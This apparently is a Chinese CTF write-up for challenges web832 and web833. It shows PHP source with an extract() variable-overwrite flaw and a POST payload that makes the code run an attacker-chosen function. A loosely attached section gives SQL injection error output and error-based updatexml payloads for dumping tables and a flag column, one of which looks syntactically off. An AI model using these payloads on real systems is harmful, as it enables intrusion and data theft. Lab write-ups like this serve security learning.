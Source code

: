 ## web832



直接看源码，对上口号
<font color='red'>**网络安全靠人民 网络安全为人民**</font>



## web833



提示robots.txt泄露，拿到源码

```php
<?php

error_reporting(0);

function getFilter($index=0){
    $filter=["strip_tags","addslashes"];
    return $index?$filter[1]:$filter[0];
}

function getHandle(){
    $filter=getFilter();
    $say=function($array) use (&$filter){
        extract($array);
        $hello=$filter($name);
        return $hello;
    };
    return $say;
}

$msg=getHandle();
$message="hello ".$msg($_REQUEST);
?>
```

有一个**extract**可以变量覆盖，最下面的`$message="hello ".$msg($_REQUEST);`给了执行函数的入口
直接`POST  name=-1&filter=phpinfo`
在phpinfo里面找到flag

代码有点难懂，但其实做题不困难，`$say=function($array) use (&$filter)`这句话是最关键的，相当于执行函数的
可以自己本地调试



 

You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'union select 1,user(),database()#'' at line 1



**You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'union select 1,2,3;#'' at line 1**



1' and updatexml(1,concat(0x7e,group_concat(select table_name from information_schema.tables where table_schema=database()),0);#



kobe' and updatexml(1,concat(0x7e,(select right(flag,25) from app_flag)),0);#


